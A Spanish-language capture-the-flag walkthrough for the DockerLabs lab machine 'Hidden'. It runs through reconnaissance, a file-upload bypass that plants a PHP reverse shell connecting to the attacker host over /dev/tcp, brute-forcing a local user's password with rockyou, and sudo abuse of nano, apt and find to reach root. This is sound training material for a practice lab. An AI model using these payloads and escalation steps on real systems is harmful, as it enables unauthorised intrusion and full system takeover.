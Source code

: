 Máquina "Hidden" de la plataforma [DockerLabs](https://dockerlabs.es)

Autor: [El Pingüino de Mario](https://www.youtube.com/channel/UCGLfzfKRUsV6BzkrF1kJGsg)

Dificultad: Medio

![Hidden](/maquina-hidden/img/Dockerlabs.png)

# Reconocimiento

Comenzamos con un escaneo de `nmap`:

```css
nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv 172.17.0.2 -oN escaneo.txt
```

```ruby
# Nmap 7.95 scan initiated Sun Dec 15 01:33:23 2024 as: nmap -sSVC -p- -Pn -n --open --min-rate 5000 -vvv -oN escaneo.txt 172.17.0.2
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000014s latency).
Scanned at 2024-12-15 01:33:24 -03 for 8s
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.52
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://hidden.lab/
|_http-server-header: Apache/2.4.52 (Ubuntu)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: Host: localhost

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Dec 15 01:33:32 2024 -- 1 IP address (1 host up) scanned in 8.59 seconds
```

vemos un solo puerto abierto:

• `Puerto 80: Apache httpd 2.4.52`

Si vemos en el escaneo, tenemos un dominio:

`"hidden.lab"`

por lo que lo añadiremos al `/etc/hosts` de la siguiente manera:

```css
echo "172.17.0.2	hidden.lab" >> /etc/hosts
```

Una vez entramos desde el navegador, no encontramos nada útil, pero teniendo en cuenta que hay un dominio, también puede tener un subdominio, por lo que usaremos `ffuf` para intentar fuzzear subdominios. Para hacerlo, debemos ejecutarlo de la siguiente manera:

```css
ffuf -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt -u "http://hidden.lab" -H "Host: FUZZ.hidden.lab" -fl 10
```

```ruby

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://hidden.lab
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/DNS/subdomains-top1million-110000.txt
 :: Header           : Host: FUZZ.hidden.lab
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response lines: 10
________________________________________________

dev                     [Status: 200, Size: 1653, Words: 550, Lines: 58, Duration: 2ms]
:: Progress: [114441/114441] :: Job [1/1] :: 11111 req/sec :: Duration: [0:00:13] :: Errors: 0 ::
```

Como vemos tenemos un subdominio, por lo que volveremos a editar el `/etc/hosts` pero borramos lo que hicimos antes y ponemos esto en la misma linea:

```css
172.17.0.2	hidden.lab dev.hidden.lab
```

Ahora si vamos desde la web, veremos el siguiente panel de subida de archivos:

![Subir_Archivos](/maquina-hidden/img/Panel.png)

# Intrusión

Si leemos bien, dice que no se permite la subida de php, pero podriamos intentar subir un phtml. Para esto, creamos un archivo llamado "shell.phtml" y ponemos el siguiente contenido:

```php
<?php
system("bash -c 'bash -i >& /dev/tcp/172.17.0.1/443 0>&1'");
?>
```

Luego, lo subimos en la web, escuchamos con netcat en el puerto 443 (`sudo nc -nlvp 443`) y luego vamos a `/uploads/shell.phtml`. Una vez hacemos todo eso, ya estaremos dentro de la maquina.

# Escalada de privilegios

### www-data

Siendo www-data, creamos un script en `/tmp` el cual dentro tenga copiado el siguiente script:

[Multi-su_force.sh](https://github.com/Maciferna/multi-Su_Force/blob/main/multi-su_force.sh)

Una vez lo tenemos, ejecutamos lo siguiente en nuestro host:

```css
sudo apt install xclip && cat /user/share/wordlist/rockyou.txt | head -n 500 | xclip -sel clip
```

esto lo que hará, sera instalar `xclip` si no lo tenemos, y luego copiar las primeras 500 lineas del rockyou (esa ruta es para kali linux, se debe cambiar en caso que no esté ahi), luego volvemos a la maquina y creamos la wordlist con las contraseñas. Una vez ejecutado el script, veremos lo siguiente:
![Cafetero-pass](/maquina-hidden/img/cafetero.png)

(si no funciona, se debe cambiar la linea del script que dice `if timeout 0.073` por `if timeout 0.1`)

Teniendo la contraseña, escalamos a el usuario "cafetero" con `su cafetero`.

### Cafetero

Si ejecutamos `sudo -l` veremos que podemos ejecutar `nano` como el usuario "john", por lo que vamos a [GTFOBins](https://gtfobins.github.io/gtfobins/nano/#sudo) para poder escalar al usuario john.

### John

Nuevamente, si ejecutamos `sudo -l` veremos que podemos ejecutar `apt` como el usuario "bobby", y para escalar debemos ejecutar lo siguiente:

```css
sudo -u bobby apt changelog apt
```

y luego de ejecutarlo escribir lo siguiente y darle al enter:

```css
!/bin/bash
```

### Bobby

Siendo bobby, podremos ejecutar el binario `find` como root, y para escalar debemos ejecutar lo siguiente:

```css
sudo find . -exec /bin/bash \; -quit
```

## Root

![Root](/maquina-hidden/img/root.png)



Gracias por leer :)